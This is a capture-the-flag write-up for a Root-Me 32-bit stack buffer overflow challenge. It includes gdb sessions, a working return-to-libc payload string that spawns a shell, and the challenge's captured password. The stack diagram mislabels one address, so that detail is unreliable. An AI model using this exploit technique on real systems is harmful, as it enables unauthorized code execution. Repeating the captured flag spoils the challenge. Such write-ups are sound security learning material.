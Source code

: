# ELF x86 - Stack buffer overflow basic 6
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-6
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch33@challenge02.root-me.org    
Username	app-systeme-ch33
Password	app-systeme-ch33
```
According to the source code (and the executable itself), the program will get an argument (_message_) from the command line, and will print it. The _message_ buffer is 20 bytes long, and there is a use of **strcpy** with no boundary check.<br><br>

So first thing first, the offset which breaks the program need to be found. After few tries:
```gdb
(gdb) run `python -c "print 'A'*32 + 'DDDD'"`
Starting program: /challenge/app-systeme/ch33/ch33 `python -c "print 'A'*32 + 'DDDD'"`
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```

So it's possible to control the _eip_ from overflowing the buffer.<br>
Now, because the NX is on (and the program includes the "stdio.h") lets try to perform return-to-libc attack.<br>
First, let's find the libc's **system** function. According to gdb:
```gdb
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e63310 <__libc_system>
```
Now, let's check if there is a "/bin/sh" string in libc (ASLR is off). According to gdb:
```gdb
(gdb) info proc map
process 6635
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /challenge/app-systeme/ch33/ch33
	 0x8049000  0x804a000     0x1000        0x0 /challenge/app-systeme/ch33/ch33
	 0x804a000  0x804b000     0x1000     0x1000 /challenge/app-systeme/ch33/ch33
	0xb7e22000 0xb7e23000     0x1000        0x0 
	0xb7e23000 0xb7fce000   0x1ab000        0x0 /lib/i386-linux-gnu/libc-2.19.so
	0xb7fce000 0xb7fd0000     0x2000   0x1aa000 /lib/i386-linux-gnu/libc-2.19.so
	0xb7fd0000 0xb7fd1000     0x1000   0x1ac000 /lib/i386-linux-gnu/libc-2.19.so
	0xb7fd1000 0xb7fd4000     0x3000        0x0 
	0xb7fdc000 0xb7fdd000     0x1000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.19.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.19.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.19.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e23000,0xb7fd1000,"/bin/sh"
0xb7f85d4c
1 pattern found.
```

So we've got control on the _eip_, the address to libc's **system** function and the address of a "/bin/sh" string.<br>
In order to exploit the program, the stack should look like the following:
```
          +-------------------+
          |                   |
          |    32 bytes for   |
          |    overflowing    |     <==== Junk
          |                   |
          +-------------------+
          |  system address   |     <==== '\x10\x33\xe6\xb7' = 0xb7e63310
          +-------------------+
          |  return address   |     <==== Junk (doesn't really matter because we are not interested in exiting cleanly)
          +-------------------+
          |    address to     |     <==== '\x4c\x5d\xf8\xb7' = 0xb7f8564c
          |    "/bin/sh"      |
          +-------------------+
```
After constructing the payload, the program gave the following output:
```sh
app-systeme-ch33@challenge02:~$ ./ch33 `python -c "print 'A'*32 + '\x10\x33\xe6\xb7' + 'DDDD' + '\x4c\x5d\xf8\xb7'"`
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA3��DDDDL]��
$ id
uid=1133(app-systeme-ch33) gid=1133(app-systeme-ch33) euid=1233(app-systeme-ch33-cracked) groups=1233(app-systeme-ch33-cracked),100(users),1133(app-systeme-ch33)
$ cat .passwd
R3t2l1bcISnicet0o!
$ exit
Segmentation fault
```

Note: for exiting without segmentation fault, it's necessary to replace the 'DDDD' with a valid address (e.g address to libc's exit function).
